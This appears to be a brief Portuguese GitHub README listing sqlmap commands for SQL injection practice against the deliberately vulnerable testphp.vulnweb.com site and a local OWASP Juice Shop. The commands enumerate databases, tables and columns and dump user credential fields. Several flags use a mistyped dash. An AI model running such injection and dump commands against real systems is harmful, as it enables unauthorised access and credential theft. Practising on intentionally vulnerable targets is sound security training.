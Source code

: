 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs
```
```
sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns
```
``` 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump
``` 
Database Schema Juice-Shop
``` 
$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema
```
```
$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables
```
```
$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
``` 
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction

